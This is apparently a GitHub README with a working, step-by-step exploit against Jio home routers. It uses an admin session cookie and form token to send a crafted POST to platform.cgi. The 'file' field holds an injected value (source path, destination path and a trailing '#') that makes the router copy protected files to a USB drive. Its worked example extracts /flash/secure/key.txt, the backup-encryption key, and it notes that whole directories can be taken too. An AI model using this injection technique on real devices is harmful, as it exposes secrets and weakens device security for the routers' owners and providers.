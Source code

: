 # Way to get any file directly from your Jio Router's Filesystem to your pendrive [Working as of 3rd January 2023]

*Disclaimer: - This is Only for educational purposes, No one is responsible for any type of damage. Any wrong step might brick your router. So be aware.*

## Requirements:-

1. Chrome Browser
2. Postman (or cURL, if you prefer that)
3. A Pendrive or a Portable HDD/SSD that can be plugged into your router

## Notes:-

*Here we are copying `/flash/secure/key.txt` which is the encryption key used to encrypt the router backup configuration to our pendrive.*

*The location of the the pendrive root in the router is `/mnt/vfs/admin/ITSYOURAP/` (Remember to replace `"ITSYOURAP"` with the label of your pendrive)*

*In newer version replace the `backupRestore.html` with `factoryDefault.html` to avoid `401 Uanuthorized` Error.*

## Steps:-

1. Open your router admin page (`http://192.168.29.1`) and login via your admin credentials.
2. After logging in, copy the value of the cookie `TeamF1Login`. You can use the Application tab in Developer options to do so.
3. Go to the Administration > Maintenance Page
4. Press `CTRL + U` (If you are in Chrome Browser) to View Source of the page (Alternatively, you can Inspect Element)
5. Find the Backup/Restore HTML Form. It should look like this:-

    ```html  
    <form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">
    <input type="hidden" name="token" value="sometoken">
    ```
6. Copy the value of token element from the form. Here it is sometoken.
7. Open up Postman and create a new POST request to `http://192.168.29.1/platform.cgi`

   In the headers section, uncheck `Accept` and `Accept-Encoding` header.
   Fill up these headers in the request (Use the Bulk Edit option and copy paste these):-
   
   ```none
   Cookie:TeamF1Login=yourteamf1logincookievalue
   Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Referer:http://192.168.29.1/platform.cgi?page=backupRestore.html
   ```

   Change the `TeamF1Login` value with the cookie value you copied in step 2.
   Now go to the Body section and check the form-data checkbox. Click on the Bulk Edit option and copy paste these values:
   
   ```none
   button.usbRestore.statusPage:usbRestore
   file:/flash/secure/key.txt /mnt/vfs/admin/ITSYOURAP/ #
   token:sometoken
   thispage:backupRestore.html
   ```
   
   Remember to replace `sometoken` with the value of the token you copied earlier. Also replace the first section of the file param with the file you want to copy. (We are copying `/flash/secure/key.txt` in this case)
   
8. Now Click on the Send button in Postman to send the request.
Within a few seconds, your request gets completed and now you have the requested file in your Pendrive root. 

***PS: You can also copy directories using this method. Just change the first section of the file param with the folder location in the router.***
